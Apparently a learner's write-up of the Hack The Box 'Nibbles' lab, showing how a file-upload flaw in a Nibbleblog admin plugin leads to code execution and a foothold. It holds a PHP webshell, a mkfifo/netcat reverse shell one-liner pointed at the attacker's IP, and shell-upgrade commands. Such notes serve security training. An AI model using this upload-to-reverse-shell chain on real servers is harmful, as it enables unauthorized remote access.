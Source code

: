 - Since we need loggined into the admin  portal, we need to attempt to turn this access into code execution and ultimately gain reverse shell access to the webserver
- We know that metasploit will likely work for this but lets gain access tot he admin portal for other avenues of attack looking around for a bit, we see the following pages:

- `Page`	 [Contents]
- `Publish`	[making a new post, video post, quote post, or new page. It could be interesting.]
- `Comments`	[shows no published comments]
- `Manage`	[Allows us to manage posts, pages, and categories. We can edit and delete categories, not overly interesting.]
- `Settings`	[Scrolling to the bottom confirms that the vulnerable version 4.0.3 is in use. Several settings are available, but none seem valuable to us.]
- `Themes`	[This Allows us to install a new theme from a pre-selected list.]
- `Plugins`	[Allows us to configure, install, or uninstall plugins. The My image plugin allows us to upload an image file. Could this be abused to upload PHP code potentially?]

- this section we iwll attempt to use this to plugin a snippet of code which can be used for code execution

```php
<?php system('id'); ?>
```

- Save this code to a file and then click on the browse button and upload it 
- we get a bunch of errors but the file has been uploaded
- Now we have to find out where the file uploaded was successful or not 
- we would needs to go back to the directory `/content` directory. Under this there is a plugins directory and another sub directory for `my_image` 
- The  full path in this instance would be 
```http
http://<host>/nibbleblog/content/private/plugins/my_image/
```
- in this directory we see two files `db.xml` and `image.php` with a recent last modified date this means the upload was a success
```Shell-session
00818@htb[/htb]$ curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

-  Looks like we have command execution of the web server
- and we can see that the Apache server is running in the nibbler user context. 
- Let us modify our php file to obtain a reverse shell and start pokign around the server
- if we edit our PHP file we can upload it again and gain access to a reverse shell
- there are a lot reverse shell cheat sheets here are tow good ones [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) [highon,coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/) 
- we can use the followign bash command 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```
- we now add our tun0 VPN IP address  in `<ATTACKING IP>` a placeholder  port for `<LISTENING PORT>` in order to catch the reverse shell on our `netcat` listener 
```PHP
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```
- Here is our modified PHP code 
- with this code we upload it again to start our netcat listener in our terminal
```shell-session
0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
```
- That is the command
- we can cURL the image in firefox at `http://nibbleblog/content/private/plugins/my_image/image.php to execute the reverse shell.`
```shell-session
00818@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

- Now that we have the reverse shell before we continue with further enumeration we must first upgrade our shell to make it a fully  interactive TTY since specific commands will not work 
- A lot wont be accessible until we `upgrade` it 
- Here is a site that explains how t o upgrade in further detail as well as having multiple methods [blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) 
- However in the HTB example the python method was used in order to spawn a psuedo-terminal so said specific commands can work
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
- I should try the various methods of upgrading of course use all of our resources 
- how ever in the HTB example the python method did not work 
```shell-session
$ python -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3
```
- It didn't work since the python2 is missing 
- However python3 is working since the system states that python3 is available so just change it to python3
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Then we browse to `/home/nibbler` where we find the `user.txt` flag and the zip file
```
shell-session
nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt

```

[[challenge_nibblefoothold]]